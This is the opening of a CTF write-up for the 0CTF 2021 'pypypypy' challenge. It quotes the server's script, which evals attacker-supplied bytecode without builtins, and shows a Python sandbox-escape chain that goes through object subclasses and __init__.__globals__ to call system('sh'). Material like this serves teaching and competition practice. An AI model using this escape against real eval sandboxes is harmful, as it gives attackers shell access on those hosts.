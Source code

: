 ```yaml
---
layout: post
title: "0CTF 2021 / pypypypy"
permalink: /0ctf-2021-pypypypy
---
```


This was a really well-designed challenge which we enjoyed a lot. The goal was
to run arbitrary bytecode inside `eval` without having `__builtins__`. Since
the code object is created by the remote script, we don't have `co_consts` and
`co_names`. However, the author gifts us two magic names.

Let's take a look at the remote script:

```python
# 3.8.11 (default, Jun 29 2021, 19:54:56)
# [GCC 8.3.0]
import sys
from pathlib import Path
from types import CodeType

src = Path(__file__).read_text()

print(sys.version)
print(src)

codestring = bytes.fromhex(input('Give me your bytecode in hex:'))
assert len(codestring) <= 2000, 'Too long!'

print('Thanks!')
print('I will give you two gifts in exhange, what do you want?')

gift1 = input('gift1: ')
gift2 = input('gift2: ')
assert len(gift1) <= 10, 'Too long!'
assert len(gift2) <= 10, 'Too long!'

code = CodeType(0, 0, 0, 0, 0, 0, codestring, (), (f'__{gift1}__', f'__{gift2}__'), (), '', '', 0, b'')

result = eval(code, {'__builtins__': None}, {})
print('success, bye!')
```

At first our plan was calling `os.system('sh')` like this:

```python
typ = None.__getattribute__('__class__')
obj = typ.__getattribute__(typ, '__base__')
sub = obj.__getattribute__(obj, '__subclasses__')()
wrap = sub[133]
ini = wrap.__getattribute__(wrap, '__init__')
glb = ini.__getattribute__('__globals__')
glb["system"]("sh")
```
